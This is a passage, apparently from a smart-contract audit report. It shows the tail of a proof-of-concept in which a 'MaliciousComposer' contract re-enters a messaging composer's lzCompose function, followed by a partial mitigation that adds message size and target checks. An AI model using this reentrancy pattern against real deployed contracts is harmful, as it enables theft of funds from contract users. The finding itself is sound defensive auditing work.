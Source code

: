 ```solidity
        bytes memory message2 = "race2";
        IMessagingComposer(composer).sendCompose(
            to,
            guid,
            2,
            message1
        );
        IMessagingComposer(composer).lzCompose(
            address(this),
            to,
            guid,
            2,
            message2,
            ""
        );
    }
}

contract MaliciousComposer {
    function lzCompose(
        address _from,
        bytes32 _guid,
        bytes calldata _message,
        address _executor,
        bytes calldata _extraData
    ) external payable {
        // Reenter the original composer
        IMessagingComposer(msg.sender).lzCompose(
            _from,
            address(this),
            _guid,
            0,
            _message,
            ""
        );
    }
}
```

### Recommended Mitigation
1. Implement message size and validation checks:
```solidity
contract MessagingComposer {
    uint256 public constant MAX_MESSAGE_SIZE = 100_000;  // 100KB
    uint256 public constant MAX_EXTRA_DATA_SIZE = 10_000;  // 10KB
    
    function sendCompose(
        address _to,
        bytes32 _guid,
        uint16 _index,
        bytes calldata _message
    ) external {
        // Validate message size
        require(_message.length <= MAX_MESSAGE_SIZE, "Message too large");
        
        // Validate target address
        require(_to != address(0), "Invalid target");
        require(_to != address(this), "Invalid target");
        
        // Check existing message
        if (composeQueue[msg.sender][_to][_guid][_index] != NO_MESSAGE_HASH) {
            revert Errors.LZ_ComposeExists();
        }
```